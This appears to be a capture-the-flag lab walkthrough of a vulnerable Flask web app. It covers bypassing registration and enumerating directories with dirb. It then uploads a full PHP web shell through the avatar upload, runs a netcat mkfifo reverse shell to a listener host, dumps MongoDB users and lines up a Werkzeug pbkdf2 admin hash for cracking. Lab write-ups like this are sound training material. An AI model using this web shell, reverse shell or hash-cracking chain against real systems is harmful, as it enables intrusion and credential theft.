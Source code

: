 ```yaml
---
date: 2025-03-10
categories: [CTF, ImmersiveLabs]
title: "IML - Mini CTF: Vulnerable Web App – Ep.1"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App –-1 - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter


![image1](../resources/f3962ea2932041bb8298291c972a403f.png)

- In the brief it says that the app is still in development:

![image2](../resources/a39e5ba82b9c41b8ab0402482dd1c2bf.png)

- Open Burp and break the app (took username param out):

![image3](../resources/6039703708924a149b3cf483f2fcb8a6.png)

- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login

![image4](../resources/7290a6dcbd2142038dcf860038e50970.png)

- Do a directory scan:
`dirb http://10.102.88.96 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"`


![image5](../resources/63d473c8b4154fbc95ea8c1f6e651de5.png)

- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:

![image6](../resources/89b12ff7109d4bb6bff31de02b0f7665.png)

- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to  `http://10.102.88.96/static/uploads/script.php`

![image7](../resources/8f74a9b4fd9c4b96a62b6c0040913d0d.png)

- We have RCE

- Set up listener
- Run a bash rev shell command:

```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```

![image8](../resources/b2b31ce3cc2b40caa7da056df56c1cc8.png)


![image9](../resources/f180143cee174381a848c1a5031eeb2a.png)

- Admin creds:

![image10](../resources/34502bdd941e4ad099f3fff9cad66ece.png)

- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```

![image11](../resources/e251a386eac04e2c9553011465c9c8ae.png)

Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b
